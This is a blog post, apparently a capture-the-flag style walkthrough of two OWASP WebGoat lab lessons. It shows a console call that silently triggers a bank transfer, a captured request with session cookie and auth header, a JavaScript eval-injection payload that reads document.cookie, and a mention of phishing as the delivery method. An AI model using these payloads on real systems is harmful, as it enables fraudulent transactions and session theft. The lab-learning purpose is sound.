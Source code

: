 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 Continued (Continued)"
date:   2017-01-24 17:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# AJAX Security Part 8: Silent Transaction Attacks
Instructions:

- This is a sample internet banking application - money transfer page.
- It shows below your balance, the account you are transferring to and amount you will transfer.
- The application uses AJAX to submit the transaction after doing some basic client side validations.
- Your goal is to try to bypass the user's authorization and silently execute the transaction.

Aha, client side validations. Sounds like we can mess with it, or at the very least read it and look for some exploitability. Nice! Let's take a look at the source.

In the HTML, we see the following code in the confirmation form:

```
<input onclick="processData();" id="confirm" value="Confirm" name="confirm" type="BUTTON">
```

Alright so there is a third-party function ```processData()``` being called when we want to send the request. Lets take a look at that function.

```
function processData(){
	var accountNo = document.getElementById('newAccount').value;
	var amount = document.getElementById('amount').value;
	if ( accountNo == ''){
		alert('Please enter a valid account number to transfer to.')
		return;
	}
	else if ( amount == ''){
		alert('Please enter a valid amount to transfer.')
		return;
	}
	 document.getElementById('confirm').value  = 'Transferring'
	submitData(accountNo, amount);
	document.getElementById('confirm').value  = 'Confirm'
	balanceValue = parseFloat(balanceValue) - parseFloat(amount);
	balanceValue = balanceValue.toFixed(2);
	document.getElementById('balanceID').innerHTML = balanceValue + '$';
}
```

Let's break it down. ```processData``` works by pulling the information for the account the money is being transferred to, and the amount of money to be transferred from the elements filled out on the page (as long as they are filled with some data). It then does a check to make sure you cannot transfer more money than you have in the account. If the transaction passes those checks, it calls another function ```submitData``` and passes it the destination account and the amount to transfer. Then ```processData``` continues on, adjusting the sender account's balance for the amount transferred.

So there are a lot of checks in ```processData``` to prevent any transfers that the user does not want to happen. Not to mention the initial confirmation button in the HTML that fires the function off. Its main job is to interact with the sender and update data about their balance and transactions. Kind of the opposite of "silent". Let's look at ```submitData```, the method that actually performs the transactions.

```
function submitData(accountNo, balance) {
	var url = 'attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
	if (typeof XMLHttpRequest != 'undefined') {
		req = new XMLHttpRequest();
	} 
	else if (window.ActiveXObject) {
		req = new ActiveXObject('Microsoft.XMLHTTP');
	}
	req.open('GET', url, true);
	req.onreadystatechange = callback;
	req.send(null);
}
```

Hmm...not a confirmation, prompt, or check in sight! Well, let's see if we can call ```submitData``` directly from the console and bypass any user initiation or confirmation:

```
$submitData('hackeracct', 1000000)
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/silent-transaction.jpg">

Free money!!!

The real security implication here is that the ```submitData``` function actually sends a URL-formatted request to the server to perform this transaction:

```
GET /WebGoat/attack?Screen=68&menu=400&from=ajax&newAccount=hackeracct&amount=1000000&confirm=Confirm HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=68&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

So a legitimate attack might look more like a phishing campaign to members of WebGoat bank that asks them to update some account information. And then...

# AJAX Security Part 9: Dangerous Use of Eval
Instructions:

- For this exercise, your mission is to come up with some input containing a script. You have to try to get this page to reflect that input back to your browser, which will execute the script. In order to pass this lesson, you must 'alert()' document.cookie.

Alright, so we're started off with a shopping cart and some credit card info

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-1.jpg">

When we go to purchase, the server responds with an alert that tells us whether the request went through or not. Enter our exploitable vector.

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-2.jpg">

Initially, without really thinking I tried a bunch of naive XSS inserts that didn't pop. Then I realized that I was trying to pop an alert inside of an alert, which didn't make much sense. So let's think about this more logically. If we enter an incorrect PIN, the document generates an alert that looks something like this:

```
alert('Whoops: You entered an incorrect access code of "' + document.form.field1 + '"')
```

Maybe we can break out of the alert and append another? Similar to the mechanism for HTTP Response Splitting. Let's give it a shot with:

```
fail"');alert(document.cookie
```

This almost worked, but we received:

```
alert('Whoops: You entered an incorrect access code of "fail");alert(document.cookie");
```

Aha, right we forgot about the closed string. Let's try to tack on another alert on the end?

```
fail"');alert(document.cookie);alert('"filler
```

Now everything is properly escaped, and we get three alerts, of which the second is:

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-3.jpg">

Success! Definitely not too subtle with three alerts, but we pop the cookie!